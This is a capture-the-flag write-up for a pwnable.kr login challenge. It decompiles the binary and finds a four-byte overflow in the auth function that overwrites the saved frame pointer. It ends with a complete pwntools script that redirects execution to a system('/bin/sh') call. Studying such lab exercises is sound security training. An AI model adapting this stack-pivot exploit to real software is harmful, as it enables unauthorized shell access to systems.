# Thought Process



Seems this is another RE challenge, ill run file and checksec to get some background.



Great no PIE and not stripped. ill run the binary just to get a taste of whats going on. The binary takes a username (?) and outputs a hash? perhaps a token generator or something like that. ill scp it to my computer it and put it into ghidra.



Ok wow theres a LOT of bloat in here. seems the functions are sorted by alphabet or smth so ill try find main. Ahhh i see this is a statically linked binary all of libc's funtctions are essentially baked into this binary.

```
undefined4 main(void)

{
  int iVar1;
  void *local_38;
  undefined1 local_32 [30];
  uint local_14;
  
  memset(local_32,0,0x1e);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,1,0);
  printf("Authenticate : ");
  __isoc99_scanf(&DAT_080da6b5,local_32);
  memset(&input,0,0xc);
  local_38 = (void *)0x0;
  local_14 = Base64Decode(local_32,&local_38);
  if (local_14 < 0xd) {
    memcpy(&input,local_38,local_14);
    iVar1 = auth(local_14);
    if (iVar1 == 1) {
      correct();
    }
  }
  else {
    puts("Wrong Length");
  }
  return 0;
}

```

As we can see main essentially initalizes the process, stores the user input into `local_32`, zeros out the buffer`input`, then base64 decodes the input into `local_38`. after storing the b64 decoded user input into local38 theres a length check if len of decoded string is less than 13 chars. if thats the case then the decoded str is coppied into the `input` buffer as raw bytes, and auth() is called on the string. if auth() returns 1 then correct() is called.

```
bool auth(size_t param_1)

{
  int iVar1;
  undefined1 local_18 [8];
  char *local_10;
  undefined1 auStack_c [8];
  
  memcpy(auStack_c,&input,param_1);
  local_10 = (char *)calc_md5(local_18,0xc);
  printf("hash : %s\n",local_10);
  iVar1 = strcmp("f87cd601aa7fedca99018a8be88eda34",local_10);
  return iVar1 == 0;
}
```

after going through auth and correct, theyre quite simple but i can tell theres an issue here with the logic: auth() takes the input, runs it through md5, then checks it to a specific hash if its correct it returns 1. (meaning our input has to be the number that when run through md5 equals to `f87cd601aa7fedca99018a8be88eda34`.

```
``void correct(void)

{
  if (input == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

as we know correct will only run if md5(input) == something. and when correct is called it checks that input == some number if so then it gives us a shell. what im thinking is probably that md5 on the number that is checked in correct is f87cd601aa7fedca99018a8be88eda34. so basically we have to change input in between the auth and correct calls. -0x21524111 = 0xDEADBEEF. either that, or we can jump to the line that sets up binsh and then calls system.



as we can see here input is 16 bytes.



as we can see in main were allowed to pass anything under 0xd bytes (which is the length parameter in auth)



and in auth we memcpy that into a 8 byte buffer which will have a buffer overflow so we have 12-8 = 4 byte overflow. enough for a single pointer. lets see where auStack_c is located so we see what we can overwrite on the stack. ill use gdb. my input has to be decoded to be 12 bytes, so ill use the equasion encoded_len = 4 * (decoded_len/3)

4 * (12/3) = 16. so ill enter A*16

breaking at leave on auth its kinda unreadable



i want my decoded inpht to be 12 * A so ill calculated what the encoded input should be. the encoded input would be QUFBQUFBQUFBQUFB





would you look at that, we overwrote ebp with AAAA??!! and theres a leave instruction which will let us control eip



I control ebp, not a classic eip overwrite

ill write to input and jump to it becuase of the deref so lets form the payload and write a little pwntools script to connetc. payload should be b64(4 bytes + system addr + input) due to jump [esp]

ill get the address of input in bss whichll store my decoded input. &input = 0811eb40



nice now ill get the adress i wanna jump to

nice!



final

```
from pwn import *
import base64

payload = b"aaaa"+p32(0x08049278)+p32(0x0811eb40)
s = ssh(host="pwnable.kr", port=2222, user="simplelogin", password="guest")
r = s.remote("0", 9003) #run nc

r.recvuntil(b"Authenticate : ")
r.sendline(base64.b64encode(payload))
r.interactive()
```
